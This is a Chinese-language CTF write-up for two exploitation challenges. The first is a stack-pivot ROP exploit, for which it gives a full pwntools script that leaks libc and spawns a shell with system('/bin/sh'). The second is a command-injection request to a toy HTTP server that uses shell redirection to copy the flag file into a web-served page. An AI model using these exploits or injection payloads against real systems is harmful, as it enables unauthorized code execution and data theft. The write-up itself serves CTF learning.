








签到题，是只有一次read的栈迁移

只能溢出0x10字节，刚好可以覆盖rbp和ret。

利用read函数的第一条指令可以将rbp的内容写入到rax中，通过控制rbp，将其覆盖为bss段地址，那么下一次的read就会写入到指定的bss段中。
payload2就可以在bss段布置rop链，通过栈迁移泄露libc基地址
payload3再进行一次栈迁移直接执行system函数就可以get shell。
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 from pwn import *context.log_level = 'debug' context.arch = 'amd64' elf = ELF('./pwn' ) libc = ELF('./libc.so.6' ) p = process('./pwn' ) p.recvuntil('Can you grasp this little bit of overflow?\n' ) addr = 0x4006B0 vuln = 0x4006B0 bss = elf.bss() + 0x800 leave_ret = 0x00000000004006db ret = 0x3fc169 lea_rax = 0x4006C4 pop_rbp = 0x4006ad + 1 pop_rdi = 0x0000000000400773 payload1 = b'a' * 0x30 + p64(bss) + p64(lea_rax) p.send(payload1) payload2 = p64(0 ) + p64(pop_rdi) + p64(elf.got['read' ]) + p64(elf.plt['puts' ]) + p64(vuln) payload2 = payload2.ljust(0x30 , b'a' ) + p64(bss-0x30 ) + p64(leave_ret) p.send(payload2) read_addr = u64(p.recvuntil(b'\x7f' ).ljust(8 , b'\x00' )) libc_base = read_addr - libc.sym['read' ] print ('read -> ' , hex (read_addr))print ('libc_base -> ' , hex (libc_base))system = libc_base + libc.sym['system' ] binsh = libc_base + next (libc.search(b'/bin/sh' )) print ('system_sym -> ' , hex (libc.sym['system' ]))print ('system -> ' , hex (system))p.recvuntil('Can you grasp this little bit of overflow?\n' ) payload3 = p64(pop_rdi) + p64(binsh) + p64(system) payload3 = payload3.ljust(0x30 , b'\x00' ) + p64(bss-0x48 ) + p64(leave_ret) p.send(payload3) p.interactive()
其实是一道简单题
这里http请求是直接在stdin读入的，在构造请求之前要先创建/home/ctf/html目录。

请求的第一行要有三个参数，对应s1, &v34, &v36

请求中要有Host：

要有Content-Length：
第一行三个参数的规则是：第一个参数要是GET请求，第二个参数为请求路径，第三个参数为协议类型（HTTP/1.0）

这里popen可以实现任意命令执行：

对heystack的检测中没有检测<和 >

因此可以构造文件路径
<将flag文件作为输入，>将输出写入到1.html中，实现的效果就是cat flag后写入到1.html中
执行完这一次请求之后再下一次请求中再请求GET /1.html，就能得到flag
完整的两次请求如下：
第一次:
1 2 3 get /cat</flag>1.html HTTP/1.0 HOST : 114.514.114.514Content-Length : 114
第二次：
1 2 3 get /1.html HTTP/1.0 Host : 114.514.114.514Content-Length : 114